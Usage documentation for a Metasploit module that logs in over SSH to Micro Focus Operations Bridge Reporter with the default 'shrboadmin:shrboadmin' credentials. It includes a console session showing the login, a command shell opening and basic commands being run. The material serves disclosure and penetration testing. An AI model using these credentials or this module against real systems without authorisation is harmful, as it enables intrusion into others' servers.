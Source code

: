 ## Vulnerable Application

This module abuses a known default password on Micro Focus Operations Bridge Reporter.
The 'shrboadmin' user, installed by default by the product has the password of 'shrboadmin', and allows an attacker to login to server via SSH.
This module has been tested with Micro Focus Operations Bridge Manager 10.40. Earlier versions are most likely affected too, but have not been tested with this module.

## Scenarios

Setup RHOST and run it!

```
msf6 > use exploit/linux/ssh/microfocus_obr_shrboadmin
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > set rhosts 10.0.0.100
rhosts => 10.0.0.100
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > run

[*] 10.0.0.100:22 - Attempt to login to the server...
[+] 10.0.0.100:22 - Login Successful (shrboadmin:shrboadmin)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.1:35023 -> 10.0.0.100:22) at 2021-04-23 14:44:09 +0700

whoami
shrboadmin
id
uid=1001(shrboadmin) gid=1001(shrboadmin) groups=1001(shrboadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
